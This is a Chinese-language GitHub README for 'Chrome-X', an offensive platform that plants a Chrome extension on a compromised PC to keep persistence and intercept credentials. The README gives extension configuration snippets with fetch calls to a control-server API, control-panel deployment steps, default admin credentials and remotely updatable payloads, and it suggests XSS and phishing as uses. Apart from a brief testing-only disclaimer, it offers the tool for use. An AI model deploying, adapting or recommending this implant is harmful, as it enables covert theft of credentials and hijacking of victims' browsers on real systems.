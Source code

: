 # Chrome-X 后渗透持久化与凭据监听 🚀

## 项目介绍 📝

Chrome-X 是一个用于后渗透持久化与票据监听的平台。

## 功能特点 ✨

- 👥 每个插件用户可设置唯一值，以防接口暴漏被爆破
- 📊 后台可远程更新payload
- ⚙️ 实现持久化与凭据监听
- 🔒 自定义payload可实现不同场景需求
- 📱 可实现植入任何网站

## 系统要求 🛠️

- PHP 7.4 或更高版本
- MySQL 5.7 或更高版本

## 插件端配置 📦

1. background.js文件修改

   修改3和4行为用户的用户名和盐

   ```js
   const USERNAME = 'test';
   const SALT = '666';
   ```

   第19行 修改API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`
   ```

   

2. content.js文件修改

   修改第64行API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`, {
   ```


## 控制端部署 📦

1. 建议部署在宝塔 给所有文件权限 否则生成sessions会报错

2. 配置数据库文件 /config/config.php

3. 记得配置https 这是非常重要的 不然会导致https的站点无法生效

   ```js
   // MySQL数据库配置
   define('DB_HOST', 'localhost');
   define('DB_NAME', 'chrome_x');
   define('DB_USER', 'chrome_x');
   define('DB_PASS', 'chrome_x');
   define('DB_CHARSET', 'utf8mb4'); 
   ```

   

### 1. 使用指南 🔑

- 访问 `http://your-domain/`
- 默认管理员账号：admin 密码：admin_hack 【修改密码请到数据库手动修改 或者下个版本修复问题】
- ![登入](https://github.com/user-attachments/assets/e733ba3e-3ccd-4d82-a0d8-f26280af55f5)
- 首页添加用户 用户名和盐必须和插件的一致
- ![添加用户](https://github.com/user-attachments/assets/9b02a2e2-d908-46d8-87a6-a7a575b5f898)
- 设置payload 其他玩法自行发掘 如：XSS平台等
- ![payload](https://github.com/user-attachments/assets/d6a39074-ea8b-4494-b71b-aafe0dd1c050)
- 用户过多分辨不清 可添加备注
![备注](https://github.com/user-attachments/assets/dc22fe2e-0102-4490-94c0-ccbc91a74d32)
- 测试持久化劫持与凭据获取
- ![测试截图2](https://github.com/user-attachments/assets/ab62d618-05b4-48f6-80a8-41f4dbe12b27)
- ![测试截图](https://github.com/user-attachments/assets/8247864a-4d7a-4f6e-9d39-7438028cb622)
- ![XSS](https://github.com/user-attachments/assets/eda5c1fc-fc65-4ca5-89f5-6eba705ddca2)


### 

## 常见问题 ❓

### 1. 登录失败

- 检查用户名和密码是否正确
- 确认数据库连接是否正常
- 检查是否给了文件权限 因为sessions需要生成文件

### 2. 修改密码失败

- 此功能是个bug 或在下个版本修复
- 请进入数据库手动修改

### 3. 用途建议

- XSS
- 钓鱼

## 工具思路 🔒

1. 获取到PC权限后想进行后渗透和持久化凭据劫持，利用安装Chrome插件和控制端配置，可远程修改payload，凭据劫持配合XSS平台使用。

## 下载地址 💻



```
https://github.com/0xShe/Chrome-X
```

## 免责声明 🆘

本程序只允许测试使用，禁止用于违法犯罪活动，否则一切后果将自行承担。

